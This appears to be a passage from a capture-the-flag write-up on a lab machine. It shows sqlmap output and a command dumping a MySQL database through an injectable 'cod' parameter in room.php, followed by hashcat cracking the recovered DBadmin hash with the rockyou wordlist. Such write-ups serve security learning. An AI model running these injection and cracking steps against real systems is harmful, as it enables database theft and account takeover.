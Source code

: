```
---
[15:40:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: PHP, Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[15:40:44] [INFO] fetched data logged to text files under '/home/dan/.sqlmap/output/10.10.10.143'

[*] ending @ 15:40:44 /2019-07-28/
sqlmap -u http://10.10.10.143/room.php\?cod\=1 -p cod -a 
%<----SNIP-----
```
That second command that dumps the whole database will take a while!

Buried in the massive amount of output is the Username and Password hash of a database user: DBadmin and "2D2B7A5E4E637B8FBA1D17F40318F277D29964D0". As you can guess from the name, SQLmap also confirmed that this user has full DBA permissions.

Hashcat for the password hash:

```
echo '2D2B7A5E4E637B8FBA1D17F40318F277D29964D0' > hash
hashcat -a 0 -w 2 -m 300 hash ~/SecLists/Passwords/Leaked-Databases/rockyou.txt

hashcat (v5.1.0) starting...

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: GeForce GTX 1050 Ti, 1009/4036 MB allocatable, 6MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Temperature abort trigger set to 90c

Dictionary cache hit:
* Filename..: /home/dan/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou
                                                 
Session..........: hashcat
Status...........: Cracked
```